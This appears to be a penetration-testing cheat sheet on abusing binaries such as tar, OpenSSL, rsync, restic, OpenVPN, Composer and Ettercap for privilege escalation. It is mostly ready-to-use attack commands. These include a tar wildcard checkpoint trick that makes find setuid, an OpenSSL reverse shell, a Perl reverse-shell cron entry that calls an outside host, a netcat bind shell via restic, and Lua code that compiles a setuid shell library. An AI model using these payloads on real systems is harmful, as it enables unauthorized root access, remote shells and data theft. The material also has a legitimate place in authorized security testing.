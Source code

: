 # GTFO Binaries

### Tar

If tar is allowed in sudoers with a wildcard command we can abuse that for privilege escalation. Filenames will be interpreted as command line arguments therefore we can create the following setup:

```text
-rw-r–r–. 1 xxx xxx 0 Oct 28 19:19 –checkpoint=1
-rw-r–r–. 1 xxx xxx 0 Oct 28 19:17 –checkpoint-action=exec=sh payload.sh
-rwxr-xr-x. 1 xxx xxx 12 Oct 28 19:17 payload.sh
```

To create the files use:

```text
echo "chmod u+s /usr/bin/find" > payload.sh
echo "" > "--checkpoint-action=exec=sh payload.sh"
echo "" > --checkpoint=1
```

Using find as the payload has the charm that we can execute commands via `find f1 -exec "whoami" \;` \(file f1 must exist\)

### TCPDump

With `-z` you can execute commands via TCPDump.

### OpenSSL

Openssl can read files and write into files via network. So it can be used for exfil and infil of Data. In addition a bind or reverse shell can be implemented via OpenSSL, e.g.:

```bash
openssl.exe s_client -quiet -connect <ip>:<port> | cmd.exe | openssl.exe s_client -quiet -connect <ip>:<port>`
```

### Rsync

If permissions allow it one can get RCE with RSync by overwriting the cronjobs file.

```bash
* * * * * root perl -e 'use Socket;$i="<ip>";$p=<port>;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};
```

Download folder:

```bash
rsync -r rsync://user@ip/<remote_dir>/ .
```

Upload folder:

```bash
rsync -vvaP -6 <local dir> "rsync://user@ip/<remote dir>"
```

### LuksOpen

#### Sudo

Create a local luks volume on the attacker box, place a setuid binary and then mount it on the target.

```text
dd if=/dev/zero of=/tmp/vol bs=1M count=512
sudo cryptsetup -vy luksFormat /tmp/vol
sudo cryptsetup luksOpen /tmp/vol vol
sudo mkfs.ext4 /dev/mapper/vol
sudo mount /dev/mapper/vol /mnt
sudo umount /mnt && sudo cryptsetup luksClose vol
```

### Restic:

#### Sudo

```bash
sudo /usr/bin/restic backup -r rest/ -r sftp:<name>@127.0.0.1:/var/tmp/rest -o sftp.command="nc.traditional -lp 2000 -e /bin/bash" `
```

### Journalctl

#### Sudo

```bash
stty rows 2 (to force less to be used)
/usr/bin/sudo /usr/bin/journalctl -n5 <...>
```

### OpenVPN

#### Sudo

```text
sudo openvpn --script-security 2 --up payload.sh --dev tun1 &
```

Put your payload into payload.sh.

### Composer

#### Sudo

Create composer.json:

```text
{
    "scripts": {
        "test": [
            "@clearCache",
            "phpunit"
        ],
        "clearCache": "<shell command>"
    }
}
```

Then run :

```text
sudo /usr/bin/composer run-script test
```

### Ettercap

#### Suid

```text
package.cpath = "/tmp/?.so"
payload = [[
#include <unistd.h>
static int luaopen_hello = 0;
static void before_main(void) __attribute__((constructor));
static void before_main(void)
{
  char *argv[] = {"/bin/sh", NULL};
  char *envp[] = {NULL};
  setuid(geteuid());
  setgid(getegid());
  execve(argv[0], argv, envp);
}
]]
local out = assert(io.open("/tmp/inluaofaname.c", "wb"))
out:write(payload)
out:close()
os.execute("gcc /tmp/inluaofaname.c -o /tmp/inluaofaname.so -shared -fPIC")
require "inluaofaname"
```

```text
./ettercap --lua-script ./x.lua -Tq
```

This can also be used with nmap nse scripts, see [https://www.elttam.com/blog/lua-suid-shells/](https://www.elttam.com/blog/lua-suid-shells/). 

### Resources

[https://gtfobins.github.io/](https://gtfobins.github.io/)

